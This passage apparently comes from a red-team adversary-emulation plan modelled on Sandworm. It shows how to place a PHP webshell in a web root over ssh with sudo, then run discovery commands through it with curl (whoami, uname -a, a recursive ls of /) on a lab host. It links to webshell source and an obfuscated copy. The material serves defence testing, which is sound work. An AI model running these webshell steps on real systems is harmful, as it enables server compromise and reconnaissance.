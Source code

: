 `Whg42WbhhCE17FEzrqeJ`

Move P.A.S. webshell to `/var/www/html` so it can be invoked via httpd.

```bash
ssh fherbert@10.0.1.5 "sudo mv /tmp/search.php /var/www/html/"
```

[Source Code](/Resources/phpWebShell/webShell.php)

[Source Code - Obfuscated](/Resources/phpWebShell/obfuscated_webShell.php)

### :microscope: Cited Intelligence

* https://www.us-cert.gov/ics/alerts/IR-ALERT-H-16-056-01

* https://www.cert.ssi.gouv.fr/uploads/CERTFR-2021-CTI-005.pdf

<br>

### Step 12 - Initial Discovery

:microphone: `voice track`

Sandworm enumerates information about the compromised system by issuing shell commands through the PHP webshell.

Executed commands include whoami, uname, ls, among others.

### :biohazard: Procedures

Execute `whoami` from P.A.S. webshell.

```bash
# Sandworm Team has collected the username from a compromised host.

curl --insecure "https://10.0.1.5/search.php?cmd=whoami"
```

:information_source: The '--insecure' option is used so that curl ignores self-signed certificate warnings. Self-signed certificates are used on host Caladan/10.0.1.5 for the scenario.

Execute `uname -a` from P.A.S. webshell.

```bash
# Sandworm Team used a backdoor to enumerate information about the infected system's operating system.

curl --insecure "https://10.0.1.5/search.php?cmd=uname+-a"
```

Execute `ls -lsahR` from P.A.S. webshell.

```bash
# Sandworm Team has enumerated files on a compromised host.

# P.A.S. Webshell has the ability to list files and file characteristics including extension, size, ownership, and permissions.

curl --insecure "https://10.0.1.5/search.php?cmd=ls+-lsahR+/"
```

